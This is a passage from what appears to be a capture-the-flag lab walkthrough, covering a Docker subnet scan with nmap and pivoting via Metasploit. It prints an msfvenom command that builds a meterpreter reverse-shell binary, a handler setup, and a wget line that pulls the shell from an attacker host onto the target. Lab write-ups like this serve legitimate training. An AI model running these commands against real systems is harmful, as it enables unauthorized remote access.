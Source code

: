I was kinda lost at this point. Had to take a break and come back into my notes a little later. Reading the hints I got from @DCAU helped clear my thoughts. Because there are multiple containers, why not scan the entire subnet for the others?

First verify if nmap is installed. It is not, so install with apk add nmap. Now scan the 172.19.0.0 subnet.

![nmap_docker_containers](https://user-images.githubusercontent.com/15880042/112772232-ac96e480-8ffd-11eb-8b92-1f8c70d28bc0.png)


We have three machines:
  * 172.19.0.1
  * 172.19.0.12
  * 172.19.0.100

We can cross 172.19.0.12 off our list. 12 is hosting a web page and 100 more than likely has a DNS server logs (port 53). Let


# Exploitation

Getting a shell on 192.168.19.149 was great and all but we still need to get access to two of three uncovered machines. So how
are we going to get access to devices that are not in our subnet? Welcome to pivoting via exploitation and port forwarding!

## Pivot with PortFwd and MSFVenom

***Before we proceed ensure that you have closed Burp***

Start apache2
````
service apache2 start
````

We need to get a meterpreter session going to use Metasploit's Portfwd module in order to forward a TCP port. We'll do this by 
executing a payload created via [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/).

````
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.19.145 LPORT=8000 -f elf > tempus_shell.elf
````

````
* Start metasploit
  * msfconsole
  * use exploit/multi/handler
  * set payload linux/x86/meterpreter/reverse_tcp
  * set LPORT 8000
  * set LHOST host_IP
  * run
```` 

On the victim/target download the shell from attacker and give executable permissions
````
wget attacker_ip/tempus_shell.elf
````
